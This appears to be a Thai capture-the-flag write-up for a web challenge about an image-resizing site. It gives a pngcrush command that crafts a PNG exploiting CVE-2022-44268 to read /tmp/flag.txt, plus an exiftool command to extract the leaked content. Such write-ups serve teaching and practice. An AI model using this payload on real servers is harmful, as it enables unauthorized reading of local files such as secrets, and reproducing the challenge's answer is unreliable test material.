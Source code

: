 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500

สมชายเขาได้ประสบปัญหากับการที่จะที่อยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถ ย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค github repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ `/tmp/flag.txt` คืออะไรหน่อยสิ ทำไม่ได้ละสิหึ

Format: `CSUBRU{...}`

---

ใช้ CVE-2022-44268 เพื่ออ่านไฟล์ /tmp/flag.txt
ตัวอย่างคำสั่ง craft payload
```bash
pngcrush -text a "profile" "/tmp/flag.txt" Arona.png out.png
```

ให้อัพแล้วโหลดกลับมาแล้วใช้
```bash
exiftool -b filename.png
```